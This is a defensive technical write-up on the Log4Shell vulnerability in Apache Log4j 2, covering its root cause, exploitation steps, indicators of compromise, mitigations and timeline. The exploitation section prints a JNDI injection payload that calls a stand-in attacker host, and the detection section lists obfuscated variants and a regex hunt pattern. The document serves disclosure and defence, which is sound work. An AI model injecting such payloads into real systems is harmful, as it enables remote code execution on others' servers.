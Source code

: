 # a) Log4j (Log4Shell) — technical write-up

## Executive summary

Log4Shell (CVE-2021-44228) is a remote code execution vulnerability in Apache Log4j 2 (affecting many 2.x versions) that abuses Log4j’s JNDI lookup feature to cause an application to fetch and execute attacker-controlled Java code. It was disclosed publicly in December 2021 and produced a global, fast-moving exploitation wave because Log4j is widely embedded in Java apps and services. [CISA+1](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance?utm_source=chatgpt.com)

---

## Technical background

- **Component:** Apache Log4j 2 (logging library used by Java applications).
- **Root cause:** Unvalidated use of the Java Naming and Directory Interface (JNDI) lookup mechanism inside message formatting. When Log4j formatted a log message containing a `${jndi:...}` expression, it could perform JNDI lookups (LDAP, RMI, etc.) and deserialize/execute classes fetched via those lookups. [Dynatrace](https://www.dynatrace.com/news/blog/what-is-log4shell/?utm_source=chatgpt.com)
- **Affected versions:** Log4j 2.0-beta9 through 2.14.1 (initial advisories) — upstream patches and safe versions were later released; long-term resolution is to upgrade to a fixed Log4j 2.x release. [CISA](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance?utm_source=chatgpt.com)

---

## Exploitation mechanics (how attacks worked)

1. **Injection point:** Any loggable string that reaches Log4j’s message formatting (HTTP headers, user-agent, form parameters, protocol fields, error messages, etc.) could contain a JNDI lookup payload like:
    
    ```
    ${jndi:ldap://attacker.com/a}
    
    ```
    
2. **JNDI resolution:** Log4j processed the lookup and triggered the JVM’s JNDI subsystem to contact the specified LDAP/RMI server.
3. **Class retrieval:** The attacker’s server responded with a reference that caused the victim JVM to download a remote Java class (or return a serialized object which is subsequently loaded/executed).
4. **Remote Code Execution (RCE):** The remote class ran in the victim application's process, giving arbitrary code execution with the application's privileges. [sysdig.com+1](https://www.sysdig.com/blog/exploit-detect-mitigate-log4j-cve?utm_source=chatgpt.com)

---

## Detection / Indicators of compromise (IoCs)

- **Network indicators:** outbound LDAP/RMI/HTTP calls to uncommon external servers from Java application hosts; spikes in suspicious JNDI-related network activity. [Unit 42](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/?utm_source=chatgpt.com)
- **Log indicators:** logged strings containing `${jndi:`, `${${lower:jndi}:...}`, or obfuscated variants (nested lookups, base64, URL-encoded forms).
- **Behavioral indicators:** unexpected JVM class downloads, new / unusual Java processes, webshells, reverse shells, or anomalies in application behavior after suspicious log entries.
- **Hunt queries:** search logs for regex patterns like `\$\{jndi:` and for DNS/LDAP requests to attacker domains.

---

## Mitigation & remediation

Short-term mitigations that were widely recommended while patches were applied:

- **Upgrade Log4j** to a patched release (follow Apache guidance — final fixed releases are the correct long-term fix). [CISA](https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance?utm_source=chatgpt.com)
- **If immediate upgrade not possible:** remove the `JndiLookup` class from the `log4j-core` JAR (e.g., `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`), or set JVM/system property to disable lookups if provided by the patched line. Vendor playbooks documented removal workarounds. [Dell](https://www.dell.com/support/kbdoc/en-us/000194596/how-to-remove-jndilookup-class-from-the-log4j-2-x-core-jar-file?utm_source=chatgpt.com)
- **Network controls:** block outbound LDAP/RMI from application workloads, enforce egress restrictions and DNS filtering. [sysdig.com](https://www.sysdig.com/blog/exploit-detect-mitigate-log4j-cve?utm_source=chatgpt.com)

---

## Impact & timeline (summary)

- **Discovery & disclosure:** public disclosure/patching December 2021; massive scanning and exploitation followed immediately, affecting cloud services, endpoints, and embedded devices where Log4j was present. Global telemetry showed extremely high scan/exploit volumes in the weeks after disclosure.
